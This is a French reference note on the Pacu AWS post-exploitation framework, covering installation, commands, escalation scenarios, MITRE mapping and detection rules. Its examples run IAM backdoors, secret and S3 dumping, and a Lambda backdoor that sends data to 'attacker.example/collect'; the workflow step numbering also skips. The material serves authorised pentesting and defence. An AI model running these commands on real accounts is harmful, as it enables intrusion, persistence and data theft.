


# 🐱 Pacu — Le framework d'attaque AWS

> [!info] **En 1 phrase**
> Framework post-exploitation open source qui te permet de lancer des modules d'exploitation AWS à la manière de Metasploit.

---

## 🧾 Overview

| Champ | Valeur |
|---|---|
| Nom complet | Pacu (The AWS exploitation framework) |
| Description | Framework Python modulaire de post-exploitation AWS : énumération, escalade de privilèges, persistance, pillage de données et exfiltration via l'API AWS |
| Catégorie | ☁️ Cloud & Containers |
| Sous-catégorie | Post-exploitation cloud / Offensif AWS |
| Type d'outil | CLI interactive (framework modulaire, style Metasploit) |
| Licence | BSD-3-Clause |
| Open source / propriétaire | Open source |
| Langage(s) de programmation | Python 3.7+ (boto3, Click, prompt_toolkit) |
| Développeur / organisation | Rhino Security Labs |
| Projet officiel | https://github.com/RhinoSecurityLabs/pacu |
| Dépôt officiel | https://github.com/RhinoSecurityLabs/pacu |
| Documentation officielle | https://github.com/RhinoSecurityLabs/pacu/wiki |
| Date de création | 2018-06-13 (première release open source : août 2018, BSidesLV) |
| État du projet | actif |
| Dernière version connue | v1.7.0 (mars 2026) |
| Systèmes compatibles | Linux, macOS (officiellement supporté), Windows (via WSL/Docker) |

> [!note] Pour vérifier / compléter
> Version vérifiée sur https://github.com/RhinoSecurityLabs/pacu/releases (v1.7.0, 23 mars 2026). La base SQLite a été migrée dans v1.5.0 : une base créée avec une version antérieure doit être supprimée (`rm ~/.local/share/pacu/sqlite.db`).

---

## 🎯 Concept

Pacu est un framework d'attaque AWS conçu par Rhino Security Labs pour automatiser la phase de **post-exploitation cloud** : il est l'équivalent de Metasploit pour Amazon Web Services, là où les scanners de conformité (ScoutSuite, Prowler) sont l'équivalent de Nessus. Il s'exécute en local, s'authentifie auprès de l'API AWS avec des credentials compromis (Access Key AKIA…, clés de session STS, rôles assumés via `sts:AssumeRole`, profils de machines EC2) et pilote l'API à travers **boto3**. Tout l'état d'un engagement est conservé dans une **base SQLite locale** : sessions séparées par client, données d'énumération réutilisables, minimisation des appels API (donc des logs CloudTrail).

Pacu se place après l'obtention initiale de clés AWS (secrets leakés dans un repo Git public, instance compromise avec Instance Profile, lambda misconfigurée, bucket S3 exposé). Son workflow type : cartographier le compte (`whoami`, `services`), détecter les privilèges réels (`enumerate_iam`, `iam__bruteforce_permissions`), chercher les chemins d'escalade (`iam_privesc_scan`), exploiter (`iam__backdoor_users`, `iam__backdoor_role`), puis piller (`ec2__download_userdata`, `secrets__get_secrets`, `storage__dump`) et installer des mécanismes de persistance (`lambda__backdoor_lambdas`, `iam__backdoor_permissions_sets`). Les modules sont organisés par catégorie : reconnaissance, énumération, escalade de privilèges, persistance, exfiltration, pillage de données, manipulation de logs, exploitation générale.

Sa force : la bibliothèque de modules (plus de 100 modules réels dans le framework), la gestion native des sessions et des données, et l'intégration avec **CloudGoat**, l'environnement AWS « vulnérable par design » de Rhino Security Labs, qui permet de s'entraîner légalement.



---

## 🧠 Concepts fondamentaux

| Concept | Explication |
|---|---|
| Access Key ID (AKIA…) | Clé longue durée d'un utilisateur IAM : `aws_access_key_id` + `aws_secret_access_key`. C'est la « première chose volée » dans un pentest AWS |
| Clés de session STS | Credentials temporaires (1 h par défaut) obtenus via `sts:GetSessionToken` ou `sts:AssumeRole`, composés de `SessionToken` en plus des deux clés. Sans `SessionToken`, les appels échouent |
| Rôles IAM assumables | Un principal (user/role) peut s'« assumer » via une **trust policy** et un `sts:AssumeRole` : c'est la base des mouvements latéraux cloud |
| Instance Profile / Metadata | Un rôle attaché à une instance EC2 est récupérable via l'IP link-local `169.254.169.254/latest/meta-data/iam/security-credentials/` (IMDSv1 ou v2) |
| boto3 | SDK AWS pour Python que Pacu utilise pour tous les appels API. Les permissions testées sont celles du principal courant |
| CloudTrail | Journal des appels API du compte : chaque module Pacu y laisse des traces (sauf modules de manipulation de logs comme `cloudtrail__disable_logging`) |

---

## 🛠️ Installation

### Debian / Ubuntu / Kali Linux

```bash
# Python 3.7+ requis
sudo apt update && sudo apt install -y python3 python3-pip python3-venv git
python3 -m venv ~/pacu-env && source ~/pacu-env/bin/activate
pip install -U pip
pip install -U pacu
```

### macOS

```bash
# via pipx (recommandé par Rhino Security Labs)
brew install pipx && pipx ensurepath
pipx install git+https://github.com/RhinoSecurityLabs/pacu.git
# ou en venv classique
python3 -m venv ~/pacu-env && source ~/pacu-env/bin/activate
pip install -U pacu
```

### Windows

```powershell
# Windows n'est pas officiellement supporté : utiliser WSL2 ou Docker
wsl --install
# Dans WSL2 : suivre la procédure Debian/Ubuntu ci-dessus
```

### Docker

```bash
docker pull rhinosecuritylabs/pacu:latest
# Mode 1 : lancement direct de Pacu
docker run -it rhinosecuritylabs/pacu:latest
# Mode 2 : shell dans le conteneur
docker run -it --entrypoint /bin/sh rhinosecuritylabs/pacu:latest
# Mode 3 : monter ses propres credentials AWS (attention à la fuite !)
docker run -it -v ~/.aws:/root/.aws rhinosecuritylabs/pacu:latest
```

> [!warning] ⚠️ Prérequis & problèmes potentiels
> - Pacu requiert Python 3.7+ et pip3 ; sur Kali, `pip` n'est plus installé par défaut → utiliser `pipx install git+https://github.com/RhinoSecurityLabs/pacu.git`.
> - La base SQLite est créée au premier lancement dans `~/.local/share/pacu/sqlite.db`. Si tu passes de v1.4.x à v1.5.0+, supprime l'ancienne base (`rm ~/.local/share/pacu/sqlite.db`) sinon erreur de migration.
> - Les modules destructifs exigent des clés valides : sans `aws_access_key_id`/`aws_secret_access_key` valides, tout module échoue avec des erreurs `ClientError`.

---

## ⚙️ Configuration

Pacu est configuré **en interactif** (commandes du REPL) et persiste l'état dans une base SQLite locale. Il n'y a pas de fichier de config global ; chaque engagement est une session.

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `set aws_access_key_id` | Access Key ID du principal compromis | `AKIA…` | Authentifie tous les modules | `set aws_access_key_id AKIA1111222233334444` |
| `set aws_secret_access_key` | Secret Key associé | chaîne secrète | Authentifie tous les modules | `set aws_secret_access_key wJalrXUtnFEMI…` |
| `set session` | Nom de la session Pacu | nom libre | Isole les données d'un engagement | `set session client-alpha` |
| `set regions` | Régions AWS auditées | `us-east-1,eu-west-3` | Réduit la portée et le temps d'exécution | `set regions us-east-1` |
| `services` | Active/désactive les services audités | liste de services | Restreint l'énumération aux services pertinents | `services` puis `services cloudtrail` |
| `import_keys --profile X` | Importe un profil AWS existant (`~/.aws/credentials`) | nom de profil | Charge les clés sans les taper | `import_keys --profile pwned` |

---

## 🏗️ Architecture interne

Pacu est un package Python organisé ainsi (dépôt `RhinoSecurityLabs/pacu`) :

- **`cli.py`** : point d'entrée ; configure l'interface interactive (prompt_toolkit), charge les sessions et dispatche les commandes utilisateur.
- **`pacu/`** : package principal contenant `core/` (chargement de sessions, gestion de la base SQLite, wrapper d'appels API boto3), `services/` (définition des services AWS et de leurs permissions), `config/` (liste des régions), `modules/` (le répertoire de tous les modules d'attaque).
- **Modules** : chaque module vit dans `pacu/modules/<category>__<name>/main.py` avec `module_info` (nom, auteur, description, services utilisés, privilèges nécessaires). Un module exécute une séquence d'appels API et stocke ses résultats en base.
- **Base SQLite** : tables `sessions`, `data` (clé/valeur par session), et données typées par service. `data` affiche le contenu collecté ; les modules y écrivent pour éviter de re-scan le compte à chaque run.
- **Wrapper boto3** : Pacu construit ses clients selon les régions actives (`set regions`) et le principal courant ; les erreurs `AccessDenied` sont gérées pour faire avancer l'énumération sans crasher.

Flux d'exécution d'un module : lecture des credentials de session → construction des clients boto3 → exécution des appels API (avec gestion d'erreurs) → persistance des données → génération d'un **rapport markdown** dans `sessions/<session>/<module>/report.md` et d'un JSON brut dans `sessions/<session>/<module>/`.



---

## ⌨️ Commandes

### Commandes principales

```text
pacu
```

Une fois dans l'interface Pacu, voici les commandes interactives clés :

| Commande | Objectif | Résultat attendu |
|---|---|---|
| `import_keys --profile pwned` | Importe un profil AWS existant | Clés chargées depuis `~/.aws/credentials` |
| `whoami` | Résout l'identité AWS et liste les permissions connues | ARN, user/role, permissions autorisées |
| `list` | Liste les modules disponibles par catégorie | Inventaire des modules |
| `run enumerate_iam` | Teste les permissions API une à une | Liste des actions autorisées |
| `run iam_privesc_scan` | Cherche les chemins d'escalade de privilèges connus | Chemins exploitables (avec preuves) |
| `run all` | Exécute tous les modules sans confirmation | Exécution complète (⚠️ destructif potentiel) |
| `services` | Active/désactive les services à auditer | Liste à cocher |
| `exec aws s3 ls` | Exécute une commande AWS CLI avec les clés de session | Sortie AWS CLI standard |
| `set regions us-east-1` | Cible une région | Modules limités à la région |
| `exit` | Quitte Pacu (sauvegarde la session) | Retour au shell |

### Commandes avancées

```bash
# Lancer Pacu en non-interactif pour un module précis (n'écrit pas la session)
python3 cli.py --module-name iam_privesc_scan --key-id AKIA1111222233334444 --secret-key wJalrXUtnFEMI... --session pwn
# Exécuter une commande AWS CLI via la session Pacu
exec aws sts get-caller-identity
exec aws s3api list-buckets --query "Buckets[].Name"
# Voir les données collectées pour S3
data s3
```

---

## 🎚️ Options et flags

| Option / Commande | Description | Exemple | Niveau |
|---|---|---|---|
| `set <clé> <valeur>` | Définit une variable de session | `set regions us-east-1` | Basic |
| `import_keys --profile X` | Importe un profil AWS | `import_keys --profile pwned` | Basic |
| `run <module>` | Exécute un module | `run user_enum` | Basic |
| `data` | Afficher les données de session | `data` | Basic |
| `exec aws <cmd>` | Lancer AWS CLI avec les clés de session | `exec aws s3 ls` | Intermediate |

> [!tip] Options les plus utiles au quotidien
> `import_keys --profile <profil>` (charger un profil AWS), `whoami` (valider l'accès), `run iam_privesc_scan` (trouver l'escalade), `set regions` (accélérer), `data` (relire les résultats).

---

## 🧪 Exemples pratiques

### Beginner

```bash
# 1. Installer et lancer
python3 -m venv ~/pacu-env && source ~/pacu-env/bin/activate
pip install -U pacu
pacu
# 2. Saisir les clés (interactif)
set keys
# 3. Valider l'identité
whoami
# 4. Énumérer les permissions réelles
run enumerate_iam
```

### Intermediate

```bash
# Charger un profil AWS existant puis énumérer les utilisateurs
pacu
import_keys --profile pwned
run user_enum
# Lister les buckets S3 et leur contenu (fictif)
run storage__dump --service s3
# Récupérer le user-data des instances EC2
run ec2__download_userdata
```

### Advanced

```bash
# Rechercher et exploiter une escalade de privilèges
pacu
set session engagement-2026
import_keys --profile pwned
run iam_privesc_scan
# Si le chemin "UpdateUserPolicy" est détecté : backdoor un utilisateur
run iam__backdoor_users --user-names admin --role-name AdminRole
# Valider l'accès au rôle administrateur avec le compte de l'utilisateur piégé
exec aws sts assume-role --role-arn arn:aws:iam::111122223333:role/AdminRole --role-session-name pwn
```

### Expert

```bash
# Pillage complet + exfiltration + persistance, session isolée
pacu
set session redteam-alpha
set regions us-east-1 eu-west-3
import_keys --profile pwned
# 1. Cartographier
run enumerate_iam
run organizations__enum
# 2. Récupérer les secrets
run secrets__get_secrets
run secrets__dump_secrets_manager
# 3. Pilier le stockage
run storage__dump --service s3
# 4. Persistance via Lambda (exfiltration vers un endpoint contrôlé)
run lambda__backdoor_new_roles
run lambda__backdoor_lambdas --name example-lambda --exfil-url https://attacker.example/collect
```

---

## 🧪 Workflow complet (scénario pas à pas)

1. **Obtenir des credentials** — clés AWS volées dans un repo Git public, une instance EC2 compromise (metadata) ou une Lambda leakée. Validation hors Pacu :
   ```bash
   aws sts get-caller-identity --profile pwned
   ```
2. **Initialiser Pacu et charger la session**.
   ```bash
   pacu
   set session client-demo
   import_keys --profile pwned
   whoami
   ```
3. **Cartographier les privilèges et chercher les escalades** — actions autorisées puis chemins d'escalade IAM.
   ```bash
   run enumerate_iam
   run iam__bruteforce_permissions
   run iam_privesc_scan
   ```
5. **Exploiter l'escalade, piller et exfiltrer** (backdoor d'un utilisateur, secrets, stockage).
   ```bash
   run iam__backdoor_users --user-names admin
   run ec2__download_userdata
   run secrets__get_secrets
   run storage__dump --service s3
   ```
7. **Documenter** — chaque module produit `sessions/<session>/<module>/report.md` : preuves réutilisables pour le rapport de pentest.

---

## 🎬 Scénarios avancés

### Scénario 1 : Escalade de privilèges via une policy mal configurée

```bash
# Détection auto des chemins d'escalade puis application
run iam_privesc_scan
run iam__backdoor_users --user-names <target-user> --role-name <admin-role>
# Vérification : l'utilisateur piégé peut assumer le rôle admin
exec aws sts assume-role --role-arn arn:aws:iam::111122223333:role/<admin-role> --role-session-name pwn
```

Pacu génère des rapports markdown par module dans `./pacu/sessions/<session>/` qui documentent les preuves exploitables pour le rapport de pentest.

### Scénario 2 : Persistance via Lambda backdoor

```bash
# Installer un backdoor sur une Lambda existante (invocation récurrente)
run lambda__backdoor_new_roles
run lambda__backdoor_lambdas --name my-lambda --exfil-url https://attacker.example/collect
```

Ce scénario simule un attaquant qui garde l'accès via un déclencheur Lambda récurrent, difficile à détecter sans CloudTrail complet et sans revue régulière du code des fonctions.

---

## 🛡️ Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Reconnaissance | `whoami`, `user_enum`, `services`, `iam__enum_users_roles_policies` : cartographie du compte |
| Énumération | `enumerate_iam`, `iam__bruteforce_permissions` : permissions réelles du principal |
| Exploitation | `iam__backdoor_users`, `iam__backdoor_role`, `systemsmanager__rce_ec2` |
| Persistance | `lambda__backdoor_lambdas`, `iam__backdoor_permissions_sets`, `ec2__backdoor_ec2_sec_groups` |
| Post-exploitation | `storage__dump`, `secrets__get_secrets`, `ec2__download_userdata`, `ebs__download_snapshots` |
| Exfiltration | Modules de récupération de données + `exec aws` pour copier vers un bucket contrôlé |

---

## 🎯 MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Initial Access / Persistence / Priv. Esc. | Valid Accounts : Cloud Accounts | T1078.004 | Pacu s'exécute avec des credentials cloud compromis (clés IAM, STS) | CloudTrail, GuardDuty, alertes sur IP source inhabituelles | MFA, SCP restrictifs, rotation, IAM Access Analyzer |
| Discovery | Cloud Service Discovery | T1526 | `whoami`, `services`, `user_enum` cartographient les services AWS | CloudTrail `List*`/`Describe*` en rafale | Rôles lecture-seule limités, SCP |
| Discovery | Permission Groups Discovery : Cloud Groups | T1069.003 | `iam__enum_users_roles_policies` énumère rôles/groupes/politiques | CloudTrail `ListRoles`/`GetRolePolicy` | Moindre privilège, revue des policies |
| Discovery | Cloud Storage Object Discovery | T1619 | `storage__dump --service s3` liste les buckets et objets | CloudTrail S3 data events | Verrouiller les ACL/policies, chiffrement |
| Collection | Data from Cloud Storage | T1530 | `storage__dump` télécharge le contenu des buckets | S3 Server Access Logs, GuardDuty | Buckets privés, condition `aws:SourceIp` |
| Credential Access | Unsecured Credentials : Cloud Instance Metadata API | T1552.005 | `ec2__download_userdata` et metadata IAM récupèrent des credentials | CloudTrail `GetUserData`, flux vers 169.254.169.254 | IMDSv2, restreindre user-data, secrets manager |
| Persistence | Account Manipulation | T1098 | `iam__backdoor_users`, `iam__backdoor_role` créent des clés/attachent des policies | CloudTrail `CreateAccessKey`/`AttachUserPolicy` | Alerte sur les événements IAM, revue périodique |
| Exfiltration | Exfiltration to Cloud Storage | T1567.002 | Données copiées vers un bucket contrôlé par l'attaquant | CloudTrail S3 data events, VPC Flow Logs | DLP, egress filtering, VPC endpoints |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Pacu est référencé par MITRE ATT&CK comme software (S0xxx non répertorié ici) ; les techniques ci-dessus couvrent les modules réels du framework.

---

## 🛡️ Defensive Security

### Signes observables

| Indicateur | Détail |
|---|---|
| Rafales d'erreurs `AccessDenied` | Signature de `enumerate_iam` / `iam__bruteforce_permissions` : centaines d'appels refusés en quelques secondes |
| Appels `sts:GetCallerIdentity` multiples | Vérification de clés volées (`whoami`) depuis des IP inconnues |
| Énumération massive (`List*`/`Describe*`/`Get*`) | `user_enum`, `iam__enum_users_roles_policies`, `storage__dump` |
| `iam:CreateAccessKey`, `iam:AttachUserPolicy` | Modules de backdoor (`iam__backdoor_users`) |
| `lambda:CreateFunction` / mises à jour de code Lambda | Backdoors Lambda récurrentes |
| `cloudtrail:StopLogging`, `cloudwatch:DeleteRule` | Tentative d'effacement des traces |

### Règles de détection (Sigma / Suricata / Snort / YARA)

```yaml
# Sigma — AWS : rafale d'AccessDenied typique d'une énumération de permissions (enumerate_iam)
title: AWS IAM Enumerate Permissions via Burst of AccessDenied
id: 0b0b2f90-0000-4a9a-8c5f-000000000001
status: experimental
logsource:
    product: aws
    service: cloudtrail
detection:
    selection:
        eventSource:
            - 'iam.amazonaws.com'
        errorCode: 'AccessDenied'
    timeframe: 5m
    condition: selection | count() by userIdentity.arn > 100
falsepositives:
    - Applications avec des permissions mal configurées
level: high
```

---

## 🤖 Automatisation

```bash
# Bash — lancer un module Pacu en non-interactif puis parser le rapport
KEY_ID="AKIA1111222233334444"
SECRET="wJalrXUtnFEMIK7mdENG+bKxLAFbfG4xj2E4dqe4Q"  # fictif
python3 cli.py --key-id "$KEY_ID" --secret-key "$SECRET" \
  --session pipeline --module-name iam_privesc_scan
grep -ri "privilege escalation" ~/.local/share/pacu/sessions/pipeline/iam_privesc_scan/report.md
```

```python
# Python — automatiser le chargement des clés et l'exécution d'un module
import subprocess

PACU_ARGS = [
    "python3", "cli.py",
    "--key-id", "AKIA1111222233334444",
    "--secret-key", "wJalrXUtnFEMIK7mdENG+bKxLAFbfG4xj2E4dqe4Q",
    "--session", "auto-audit",
]

for module in ["enumerate_iam", "iam_privesc_scan", "user_enum"]:
    result = subprocess.run(PACU_ARGS + ["--module-name", module],
                            capture_output=True, text=True)
    print(f"[*] {module} -> exit {result.returncode}")
```

---

## 📤 Output et parsing

Chaque module Pacu écrit deux types de sortie dans `sessions/<session>/<module>/` :

- `report.md` : rapport markdown lisible, preuves et commandes à reproduire.
- `main.py` output JSON : données brutes (buckets, users, secrets) parsables.

```bash
# Lister les buckets collectés par storage__dump
jq '.services.s3.buckets[].name' sessions/redteam-alpha/storage__dump/data.json 2>/dev/null
# Extraire les ARN des utilisateurs énumérés
jq '.users[].Arn' sessions/redteam-alpha/user_enum/data.json
# Compter les chemins d'escalade trouvés
grep -c "escaped" sessions/redteam-alpha/iam_privesc_scan/report.md
```

---

## 🔗 Intégrations

- [[Tools|🧰 Outils]] global
- [[Outil - ScoutSuite|ScoutSuite]] — audit de configuration passif avant l'attaque
- [[Outil - Prowler|Prowler]] — conformité CIS/NIST avant exploitation
- [[Outil - cloudfox|cloudfox]] — cartographie des chemins de confiance IAM complémentaire
- AWS CLI — `exec aws ...` dans le REPL pour valider les résultats
- CloudGoat (Rhino Security Labs) — environnement AWS vulnérable d'entraînement compatible
- aws-lens / Nimbostratus — anciens frameworks AWS, mêmes concepts

```text
CloudGoat → Pacu → cloudfox (chemins) → AWS CLI (validation) → Rapport markdown
```

---

## 🔄 Alternatives

| Outil | Avantages | Inconvénients | Cas d'usage |
|---|---|---|---|
| Prowler | Conformité CIS/NIST/PCI, rapports riches, multi-cloud | Passif, pas d'exploitation | Audit de configuration |
| ScoutSuite | Multi-cloud (AWS/Azure/GCP), rapport HTML lisible | Non maintenu depuis 2024 | Audit visuel de posture |
| cloudfox | Cartographie des chemins de confiance, REPL rapide | Contexte uniquement, pas de modules d'attaque | Mouvements latéraux |
---

## ⚡ Performance

- Chaque appel API est une requête HTTP vers l'endpoint régional d'AWS : la latence domine (100-300 ms par appel selon la région).
- `enumerate_iam` teste plusieurs dizaines d'actions par service : sur un compte avec toutes les régions actives, un run complet peut prendre plusieurs minutes.
- La base SQLite évite les re-scans : les résultats d'un module sont réutilisés par les suivants (`data <service>`).
- `set regions us-east-1` réduit drastiquement le temps : les appels régionaux sont limités à une seule région.
- `run all` enchaîne tous les modules : à réserver aux comptes de test (CloudGoat) car long et très bruyant dans CloudTrail.

---

## 🛠️ Troubleshooting

### Common problems

#### Problème : « Error: Session could not be loaded » / erreur SQLite après mise à jour

- **Cause** : la base `sqlite.db` a été créée par une version antérieure à v1.5.0.
- **Solution** : supprimer la base et en recréer une : `rm ~/.local/share/pacu/sqlite.db` puis relancer `pacu`.
- **Vérification** : `pacu` démarre et propose de créer une session.

#### Problème : modules en échec avec des erreurs `AccessDenied` / `UnauthorizedOperation`

- **Cause** : le principal n'a pas les permissions requises, ou les clés ont expiré (STS).
- **Solution** : valider avec `whoami`, puis `run enumerate_iam` pour voir ce qui est réellement autorisé ; ré-importer des clés fraîches si nécessaire.
- **Vérification** : `exec aws sts get-caller-identity` retourne un ARN valide.

---

## 🔐 Sécurité de l'outil

- **Cadre légal** : Pacu exécute des actions destructives sur un compte AWS. N'utiliser que sur des comptes autorisés (pentest signé, lab CloudGoat, compte de test).
- **AUP AWS** : certaines actions doivent être préalablement autorisées par AWS (Customer Support Policy for Penetration Testing) ; à vérifier avant engagement.
- **Traçabilité** : chaque module laisse des entrées CloudTrail. `cloudtrail__disable_logging` modifie l'état du compte — usage très sensible et détectable a posteriori.
- **Docker et secrets** : `docker run -v ~/.aws:/root/.aws` expose tes credentials au conteneur ; utiliser des clés jetables.
- **Rapports sensibles** : les rapports markdown/JSON contiennent des secrets et données client → stockage chiffré, ne pas committer.
- **Mise à jour** : vérifier la version (`pip install -U pacu`) avant usage ; les vieilles versions peuvent manquer de correctifs.

---

## ⚠️ Limitations

- **AWS uniquement** : pas de support Azure/GCP (contrairement à Prowler ou ScoutSuite).
- **Escalades IAM connues uniquement** : `iam_privesc_scan` couvre la matrice d'escalade documentée par Rhino Security Labs ; les chemins custom ne sont pas détectés.
- **Permissions limitées = résultats limités** : sans les permissions nécessaires, les modules retournent peu de données ; `enumerate_iam` est essentiel pour calibrer.
- **Bruyant** : `enumerate_iam` et `run all` génèrent des volumes d'appels très visibles dans CloudTrail/GuardDuty.
- **Pas de scanner de vulnérabilités** : Pacu n'identifie pas les CVE applicatives ; il exploite des failles de configuration.
- **Dépend de boto3** : toute évolution de l'API AWS peut casser un module tant qu'il n'est pas mis à jour.

---

## 📋 Cheatsheet

```bash
# Installer
pipx install git+https://github.com/RhinoSecurityLabs/pacu.git
pacu

# À l'intérieur de Pacu
set session engagement-2026        # isoler l'engagement
import_keys --profile pwned        # charger un profil AWS
whoami                             # identité + permissions
set regions us-east-1              # réduire la portée

# Énumération
run enumerate_iam                  # permissions réelles
run user_enum                      # utilisateurs du compte
run iam__enum_users_roles_policies # rôles/policies

# Escalade
run iam_privesc_scan               # chemins d'escalade

# Exploitation / persistance
run iam__backdoor_users --user-names admin
run lambda__backdoor_lambdas --name my-lambda --exfil-url https://attacker.example/collect

# Pillage
run ec2__download_userdata
run secrets__get_secrets
run storage__dump --service s3

# Commandes utiles
data                               # données collectées
exec aws sts get-caller-identity   # valider les clés
exit                               # sauvegarder la session
```

---

## ⚡ Quick reference

| | |
|---|---|
| **À quoi sert-il ?** | Framework de post-exploitation AWS : énumération, escalade, persistance, pillage, exfiltration |
| **Quand l'utiliser ?** | Dès qu'on dispose de credentials AWS compromis (post-exploitation cloud) |
| **Commande principale** | `pacu` puis `import_keys --profile X` et `run iam_privesc_scan` |
| **Alternative principale** | cloudfox (contexte), Prowler/ScoutSuite (audit passif) |
| **Concepts importants** | Sessions SQLite, boto3, STS, IAM, régions AWS, CloudTrail |
| **Liens associés** | [[Outil - ScoutSuite]] · [[Outil - cloudfox]] · [[Outil - Prowler]] |

---

## 🔍 Détection & Défense

| Signe | Défense |
|---|---|
| Requêtes API massives et atypiques (`enumerate_iam`) depuis une même IP | CloudTrail + CloudWatch, alerting sur les erreurs `AccessDenied` en rafale |
| Appels à `iam:CreateAccessKey`/`UpdateAssumeRolePolicy` inhabituels | Resserrer les politiques, interdire les versions de policies auto-attachées |
| Rôles/Lambdas modifiés hors maintenance (backdoor) | IAM Access Analyzer + alertes sur les événements IAM |
| Connexions depuis des IP suspectes avec des AKIA valides | MFA + `aws:SourceIp` dans les conditions de politique |
| Invocations Lambda anormales (nouveau rôle, exfil URL externe) | Journaliser les invocations, alertes sur les destinations de sortie inconnues |
| `cloudtrail:StopLogging` / `guardduty` désactivé | Alerte sur la désactivation de CloudTrail/GuardDuty, SCP interdisant la désactivation |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Tips**
> - `run iam_privesc_scan` ne détecte QUE les escalades réelles de la matrice de Rhino Security Labs : combine-le avec `enumerate_iam` pour couvrir les permissions custom.
> - Exporte un rapport markdown après chaque module (`report` ou les fichiers générés dans la session) pour preuve de pentest.
> - Utilise `set regions` pour cibler uniquement les régions pertinentes et gagner du temps.
> - Crée une session Pacu par engagement (`set session <nom>`) pour garder des données propres et comparables.
> - Vérifie l'identité avec `whoami` systématiquement : des clés sans permissions perdent du temps.

> [!warning] ⚠️ **Pièges**
> - Ne pas exécuter `run all` sur un environnement de production sans accord écrit : certains modules sont destructifs.
> - Pacu est détectable : `enumerate_iam` génère beaucoup de `AccessDenied` dans CloudTrail. Utilise-le sur des comptes isolés ou autorisés.
> - Les clés de courte durée (STS) expirent : si la session tombe en erreur, ré-importe des clés fraîches.
> - Ne pas monter `~/.aws` dans Docker sans nécessité : risque d'exfiltration des credentials de la machine.
> - Les rapports contiennent des secrets : ne pas les archiver en clair dans le vault ou un repo public.

---

## 📚 References

### Official

- Dépôt officiel : https://github.com/RhinoSecurityLabs/pacu
- Releases : https://github.com/RhinoSecurityLabs/pacu/releases
- Wiki officiel : https://github.com/RhinoSecurityLabs/pacu/wiki
- Article de lancement (Rhino Security Labs) : https://rhinosecuritylabs.com/aws/pacu-open-source-aws-exploitation-framework/
- PyPI : https://pypi.org/project/pacu/

### Security references

- MITRE ATT&CK T1078 — Valid Accounts : https://attack.mitre.org/techniques/T1078/
- MITRE ATT&CK T1526 — Cloud Service Discovery : https://attack.mitre.org/techniques/T1526/
- MITRE ATT&CK T1069.003 — Permission Groups Discovery (Cloud) : https://attack.mitre.org/techniques/T1069/003/
- MITRE ATT&CK T1530 — Data from Cloud Storage : https://attack.mitre.org/techniques/T1530/
- MITRE ATT&CK T1552.005 — Cloud Instance Metadata API : https://attack.mitre.org/techniques/T1552/005/
- AWS Customer Support Policy for Penetration Testing : https://aws.amazon.com/security/penetration-testing/

### Community

- CloudGoat (environnement d'entraînement) : https://github.com/RhinoSecurityLabs/cloudgoat
- Hands-On AWS Penetration Testing with Kali Linux (Packt, B. Caudill) : https://www.packtpub.com/
- HackTricks — AWS pentesting : https://book.hacktricks.xyz/cloud-security/aws

---

➡️ **Liens :** [[Tools|🧰 Outils]] · [[Outil - ScoutSuite|ScoutSuite]] · [[Outil - cloudfox|cloudfox]] · [[Outil - Prowler|Prowler]]
